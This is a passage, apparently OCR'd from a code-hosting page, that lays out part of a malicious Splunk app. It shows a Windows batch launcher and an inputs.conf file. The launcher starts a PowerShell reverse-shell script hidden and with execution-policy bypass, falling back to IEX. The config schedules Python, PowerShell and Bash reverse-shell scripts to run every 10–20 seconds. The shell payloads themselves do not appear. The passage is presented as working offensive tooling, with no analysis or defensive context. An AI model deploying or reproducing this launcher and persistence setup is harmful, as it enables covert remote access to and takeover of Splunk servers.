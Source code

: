 #### Batch File Launcher (Windows)
```batch
@ECHO OFF
REM bin/run.bat - Windows batch launcher for PowerShell reverse shell

REM Execute PowerShell script with execution policy bypass
PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command "& '%~dpn0.ps1'"

REM Alternative method if PowerShell execution fails
IF ERRORLEVEL 1 (
    REM Try alternative PowerShell execution
    PowerShell.exe -exec bypass -w hidden -nop -Command "IEX (Get-Content '%~dpn0.ps1' | Out-String)"
)

REM Exit without showing console window
EXIT /B
```

### Application Configuration Files

#### inputs.conf - Script Execution Configuration
```ini
# default/inputs.conf - Splunk input configuration for script execution

# Python reverse shell (Linux/Unix)
[script://./bin/reverse_shell.py]
disabled = 0
interval = 10
sourcetype = shell_output
source = python_shell

# PowerShell reverse shell (Windows)
[script://.\bin\run.bat]
disabled = 0
interval = 10
sourcetype = shell_output
source = powershell_shell

# Bash reverse shell (Linux)
[script://./bin/reverse_shell.sh]
disabled = 0
interval = 15
sourcetype = shell_output
source = bash_shell

# Alternative Python execution method
[script://python $SPLUNK_HOME/etc/apps/malicious_app/bin/reverse_shell.py]
disabled = 0
interval = 20
sourcetype = python_execution
```
